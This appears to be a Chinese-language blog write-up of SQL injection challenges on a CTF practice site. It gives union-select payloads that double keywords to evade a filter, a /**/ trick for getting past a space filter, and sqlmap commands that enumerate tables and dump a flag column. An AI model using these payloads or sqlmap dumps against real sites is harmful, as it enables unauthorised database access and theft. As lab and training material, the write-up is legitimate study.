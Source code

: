 
> id=1'  unionunion  selectselect  database()  fromfrom  information_schema.schemata  wherewhere  '1'='1


> ID: 1' union select database() from information_schema.schemata where '1'='1  
> name: baloteli  
> ID: 1' union select database() from information_schema.schemata where '1'='1  
> name: web1

那么其他的都是简单操作了
不再一一操作上playload了
除了。。。在爆列名的时候，又过滤了column_name和information_schema.columns以外就没什么  


> id=1'  unionunion  selectselect  column_namcolumn_namee  fromfrom  information_schema.coluinformation_schema.columnsmns wherewhere  table_name='flag

这个也很奇怪，有的时候需要用到abcabc的形式，有的时候要用到ab(abc)c


### 00x5 简单的sql注入2

答题思路大体上都是那样。这里有一些不一样，就是检测到空格和一些其他关键字就直接die("SQLi detected")，不知道后台是否存在关键词的替代。    
根据wp的猜测  
~~~  PHP
for_each ($query_list as $value) {  
	if (in_array($value,$filter_array)) {  
		die("SQLi detected") ;

~~~
就是直接检测是否存在这些关键词，有的话直接输出这个SQLi detected。替换就跟上面那个一样多加一层。  
于是就测试一下。  
先输入 1\，还是字符型。  
那么加个几个关键词   
1' and '1'='1  
SQLi detected  
不知道是and还是其他北过滤了，把and去掉，改成1'='1，进去了，改成1'and，没有空格，发现了空格在那个过滤数组中，那么绕过空格，把每一个 空格都替换成/**/，(因为HTML语法和md语法的原因我的*被吃了，所以补上playload了)  
![](http://oohnuejim.bkt.clouddn.com/%E7%AE%80%E5%8D%95%E7%9A%84sql%E6%B3%A8%E5%85%A52.png)

剩下的就没什么了。


### 00x6 简单的sql注入3

手注没有注入出来，他说是报错注入。。。然后我就傻乎乎地用那几个报错函数死命的注入。。。最后回显一个don't。。。看来只能盲注了。盲注手工太麻烦了。。。直接上sqlmap

判断注入点  
> sqlmap -u "http://ctf5.shiyanbar.com/web/index_3.php?id=1"

判断数据库  
> sqlmap -u "http://ctf5.shiyanbar.com/web/index_3.php?id=1" --dbs

判断表名  
> sqlmap -u "http://ctf5.shiyanbar.com/web/index_3.php?id=1"  --tables

判断字段名  
> sqlmap -u "http://ctf5.shiyanbar.com/web/index_3.php?id=1" -T "表名" --columns

查内容  
> sqlmap -u "http://ctf5.shiyanbar.com/web/index_3.php?id=1"  --dump  -T "flag" -C "flag"


以后做到哪，这篇博客就跟到哪。。。哈哈哈~



